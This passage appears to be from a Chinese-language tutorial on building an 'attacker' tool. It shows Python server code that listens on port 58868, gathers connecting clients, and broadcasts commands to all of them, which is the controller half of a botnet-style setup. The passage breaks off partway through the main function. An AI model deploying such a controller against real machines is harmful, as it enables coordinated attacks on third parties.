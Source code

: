 ## 具体实现

### 服务端实现
终于到攻击器的具体实现阶段啦，首先我们编写Server端代码。  
具体的实现思路和流程，都写在代码内的注释中：
```python
import socket
import argparse
from threading import Thread

socketList = []

'''
5. 第五步，实现发送命令的函数
便利socketList，将每个socket都调用一次send将命令发送出去
'''
# def sendCmd(cmd):
#     print("Send command......")
#     for sock in socketList:
#         sock.send(cmd.encode = ('utf-8'))

def sendCmd(cmd):
    print("Send command......")
    for sock in socketList:
        sock.send(cmd.encode('UTF-8'))    

'''
4. 第四步,实现等待客户端的函数
循环等待客户端连接，并判断socket是否在socketList已存储过，没有则添加
'''
def waitConnect(s):
    while True:
        sock, addr = s.accept()
        if sock not in socketList:
            socketList.append(sock)



'''
1. 第一步，编写主函数
创建socket，绑定所有网络地址和58868端口并开始监听；
新开一个线程等待客户端的连接，以免阻塞我们输入命令（注意）
'''
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', 58868))
    s.listen(1024)
    t = Thread(target=waitConnect, args = (s, ))
    t.start()


    '''
    2. 第二步
    将新开的线程中连接进来的socket添加到一个list中
    并检查一下socket长度，需要至少一个客户端连接
    '''
    print('Wait at least a client connection!')
    # 若没有客户端连接，则
    while not len(socketList):
        pass
    print('It has been a client connection!')
    
```